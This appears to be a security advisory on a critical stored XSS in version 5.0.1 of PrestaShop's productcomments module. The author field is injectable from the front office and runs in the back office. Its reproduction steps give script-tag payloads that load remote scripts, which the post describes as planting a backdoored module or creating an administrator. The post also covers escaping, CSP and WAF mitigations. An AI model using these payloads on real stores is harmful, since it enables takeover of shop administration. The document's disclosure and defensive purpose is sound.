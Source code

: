 ```yaml
---
layout: post
title: "Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.8)"
---
```



As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, Touch Web conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.


### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnrability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B, you can preserve a low to medium gravity score.

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.

DO NOT TEST IT IN PRODUCTION.


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters: 
** Smarty: `{$value.comment|escape:'html':'UTF-8'}`
** Twig: `{{ value.comment|e }}`
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.
